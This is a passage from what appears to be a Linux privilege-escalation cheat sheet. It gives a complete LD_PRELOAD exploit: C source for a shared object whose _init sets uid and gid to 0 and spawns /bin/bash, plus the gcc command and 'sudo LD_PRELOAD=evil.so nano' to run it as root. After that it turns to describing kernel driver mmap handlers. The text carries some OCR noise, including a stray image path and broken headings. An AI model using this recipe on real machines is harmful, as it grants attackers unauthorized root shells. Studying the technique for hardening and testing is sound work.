 create the following payload

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```

Compile it, put it an a writtable directory and launch it with nano

```bash
gcc -fPIC -shared -o evil.so evil.c -nostartfiles
sudo LD_PRELOAD=evil.so nano
```

For more information about that technique refer to [T1574 - Hijack Execution Flow: LD_PRELOAD](https://attack.mitre.org/techniques/T1574/006/)

### Linux kernel drivers

During implementation of Linux kernel drivers, the developer might register a device driver file which will usually be registered in the /dev/ directory.
Operations supported by the device driver file are described in the ‘file_operations’ structure which contains a number of function pointers, one for each operation.

dmesg 2>/dev/null | grep "signature"

module verification failed: signature and/or required key missing - tainting kernel

 mmap handler

The main purpose of an mmap handler is to speed up data exchange between userland programs and kernel space.

The kernel might **share a kernel buffer** or some physical range of memory directly with the **user address space**. The user space process may modify this memory directly without the need for making additional
syscalls.

![Virtual Memory](VirtualMemoryLinux.gif)
